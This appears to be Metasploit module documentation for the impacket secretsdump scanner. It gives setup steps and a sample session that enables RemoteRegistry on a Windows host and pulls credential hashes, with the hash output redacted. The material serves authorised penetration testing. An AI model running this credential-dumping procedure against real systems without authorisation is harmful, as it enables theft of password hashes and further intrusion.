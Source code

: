 ## Verification Steps

1. Install [Impacket][1] v0.9.17 from GitHub. The `impacket` package must be in
   Python's module path, so `import impacket` works from any directory.
1. Install [pycrypto][2] v2.7 (the experimental release). Impacket requires this
   specific version.
1. Start msfconsole
1. Do: `use auxiliary/scanner/smb/impacket/secretsdump`
1. Set: `RHOSTS`, `SMBUser`, `SMBPass`
1. Do: `run`, see hashes from the remote machine

## Scenario

```
metasploit-framework (S:0 J:1) auxiliary(scanner/smb/impacket/secretsdump) > show options 

Module options (auxiliary/scanner/smb/impacket/secretsdump):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ExecMethod  smbexec          yes       The method to use for execution (Accepted: smbexec, wmiexec, mmcexec)
   OutputFile                   no        Write the results to a file
   RHOSTS      192.168.90.11    yes       The target address range or CIDR identifier
   SMBDomain   .                no        The Windows domain to use for authentication
   SMBPass     wakawaka         yes       The password for the specified username
   SMBUser     spencer          yes       The username to authenticate as
   THREADS     1                yes       The number of concurrent threads

metasploit-framework (S:0 J:1) auxiliary(scanner/smb/impacket/secretsdump) > run

[*] [2018.04.04-17:15:45] Running for 192.168.90.11...
[*] [2018.04.04-17:15:45] 192.168.90.11 - Service RemoteRegistry is in stopped state
[*] [2018.04.04-17:15:45] 192.168.90.11 - Service RemoteRegistry is disabled, enabling it
[*] [2018.04.04-17:15:45] 192.168.90.11 - Starting service RemoteRegistry
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for JD
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for Skew1
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for GBG
[*] [2018.04.04-17:15:46] 192.168.90.11 - Retrieving class info for Data
[REDACTED]
[*] [2018.04.04-17:15:48] 192.168.90.11 - Cleaning up... 
[*] [2018.04.04-17:15:48] 192.168.90.11 - Stopping service RemoteRegistry
[*] [2018.04.04-17:15:48] 192.168.90.11 - Restoring the disabled state for service RemoteRegistry
[*] [2018.04.04-17:15:48] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

[1]: https://github.com/CoreSecurity/impacket
[2]: https://www.dlitz.net/software/pycrypto/
